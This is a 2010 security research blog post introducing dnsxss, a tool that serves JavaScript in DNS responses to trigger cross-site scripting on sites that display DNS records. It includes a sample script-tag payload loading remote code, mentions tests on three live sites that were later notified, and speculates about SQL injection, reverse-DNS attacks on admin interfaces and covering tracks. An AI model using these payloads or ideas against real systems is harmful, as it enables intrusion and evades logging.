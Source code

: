 ```yaml
---
id: 433
title: 'Stuffing Javascript into DNS names'
date: '2010-04-20T10:36:54-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=433'
permalink: /2010/stuffing-javascript-into-dns-names
categories:
    - DNS
    - Hacking
    - Tools
---
```


Greetings!

Today seemed like a fun day to write about a really cool vector for cross-site scripting I found. In my testing, this attack is pretty specific and, in some ways, useless, but I strongly suspect that, with resources I don't have access to, this can trigger stored cross-site scripting in some pretty nasty places. But I'll get to that!

Interestingly enough, between the time that I wrote this blog/tool and published it, nCircle researchers [have said almost the same thing](http://www.darkreading.com/vulnerability_management/security/app-security/showArticle.jhtml?articleID=224201569) ([paper](http://blog.ncircle.com/blogs/vert/miXSS%20Whitepaper.pdf) (pdf)). The major difference is, I released a tool to do it and demonstrate actual examples.

## dnsxss

If you've installed [nbtool](/wiki/index.php/Nbtool), you may have noticed that, among other programs it comes with, one of them is called [dnsxss](/wiki/index.php/Dnsxss). Take a look at the wiki page for more information, but what it does is, essentially, respond to DNS requests for CNAME, MX, TXT, and NS records with Javascript code. Unless you want some specific code, all you have to do is run it:

```
# dnsxss
Listening for requests on 0.0.0.0:53
Will response to queries with: 
<script/src='http://www.skullsecurity.org/test-js.js'></script>
```

Pass -h or --help for a list of arguments.

Now, an observant reader will realize that this isn't valid HTML. Unfortunately, as far as I can tell, there's no way to send a space through DNS, so you have to come up with some space-free code. The best I could find was replacing spaces with a '/', which will work on Firefox but not IE (I haven't tested anything else). If anybody can think of a better way to write HTML without spaces, let me know. The next best solution is using the TXT query, which DOES allow spaces. dnsxss will reply to TXT queries with well formed Javascript.

For what it's worth, dnsxss will answer A or AAAA requests with localhost (127.0.0.1 or ::1) -- if somebody does a lookup, they'll get an odd answer that won't immediately lead back to you.

## Let's break stuff!

So, what can you do with this?

Well, fortunately (or unfortunately? depends who you are), most sites don't echo back DNS records. But, some do. I picked the first three sites from a Google query and tested them out. All three were vulnerable. And I very much doubt that any programmers even \*consider\* filtering DNS responses. I mean, who expects DNS responses to contain HTML?

And, furthermore, if I can sneak HTML code into pretty much any site that looks up DNS names due to lack of filtering, how about SQL injection? If the response is inserted into the database without filtering for SQL characters, which I would bet they are on at least some sites, you now have an avenue for SQL injection! And, better yet, there's a decent chance that the requests won't be logged because a) it's coming through a backchannel so it's not going to be in their Web server logs, b) the statements containing SQL injection won't be inserted to your logging table (since they wouldn't be valid queries), and c) you can turn off the DNS server whenever you want, and no trace will be left that you were ever doing it (except short-lived caches).

As I mentioned earlier, I took the first three sites from a google query I crafted, and all three were vulnerable. I emailed the administrators of all three sites, and two of them replied thanking me. Both told me that it was a really interesting vector, and that they would fix their sites as soon as possible. The third I haven't heard back from. But the point is, on three random sites, none had even considered implementing any defenses.

Let's take a look at the examples! But first, here are some notes on them:

- The examples use skullseclabs.org, which is the domain I use for all my testing -- if you plan on testing these yourself, you'll have to register your own domain
- The examples use "/\* \*/" to conceal the space, but I realized later that a single "/" works just as well

So, without further ado, here are some screenshots of the sites. I anonymized them a little, though a clever attacker could likely Google hack them.

### Site 1

The form:  
![](/blogdata/dnsxss-site1-1.png)

The result:  
![](/blogdata/dnsxss-site1-2.png)

The source:  
![](/blogdata/dnsxss-site1-3.png)

### Site 2

The form:  
![](/blogdata/dnsxss-site2-1.png)

The result:  
![](/blogdata/dnsxss-site2-2.png)

The source:  
![](/blogdata/dnsxss-site2-3.png)

### Site 3

The form:  
![](/blogdata/dnsxss-site3-1.png)

The result:  
![](/blogdata/dnsxss-site3-2.png)

The source:  
![](/blogdata/dnsxss-site3-3.png)

### So there we go...

Three sites, none of which filter out my cross-site scripting attempts. Fun!

## Weaponization

The problem is, this only affects a small percentage of sites -- those that will look up domains and display them for you. How can this be used against more targets?

Well, I have two ideas:

1. As I mentioned earlier, I'd bet money that there are other forms of attacks through these avenues -- I'd be surprised if SQL injection didn't exist
2. Can you stuff javascript into **reverse** DNS entries?

The second point, I suspect, is where we're going to have fun. I can think of countless security devices, from firewalls to vulnerability management tools to proxy servers, with Web interfaces that display reverse DNS records. Not to mention tools where administrators are shown reverse lookups -- forums, for example. Another avenue is logfiles, which are normally visible to administrators.

In all of these cases, if you can stuff Javascript into reverse DNS lookups, you will likely find some very interesting vulnerabilities. Plus, you can instantly see when somebody hits one, and, more often than not, you can clean up your tracks quite well.

I don't have access to any domains where I control the reverse DNS records, but if anybody does I'd love to test this out!